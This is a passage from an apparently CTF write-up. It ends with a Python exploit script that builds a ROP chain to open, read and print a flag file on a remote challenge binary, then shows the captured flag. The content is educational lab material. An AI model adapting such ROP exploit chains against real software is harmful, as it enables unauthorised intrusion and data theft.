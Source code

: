 ```python
        MOV_QWORD_RSI_RDX,

        POP_RDI, FLAG_PATH_ADDR,
        POP_RSI, 0x0,
        OPEN_FUNC,

        XCHG_EAX_EDI,
        POP_RSI, FLAG_CONTENT_ADDR,
        POP_RDX, 0x40,
        READ_FUNC,

        XCHG_EAX_EBX,
        XCHG_EAX_EDI,
        POP_RSI, FLAG_CONTENT_ADDR,
        POP_RDX, 0x40,
        WRITE_FUNC,
    )

    write_payload(io, rop_chain)

    io.interactive()


if __name__ == "__main__":
    main()
```

After running the exploit for a few minutes, we get this:
!![Screenshot_20241017_000627](../../Screenshot_20241017_000627.png)

Flag: `ironCTF{W3lc0m3_T0_R3m0te_pwn1ng!!!}`


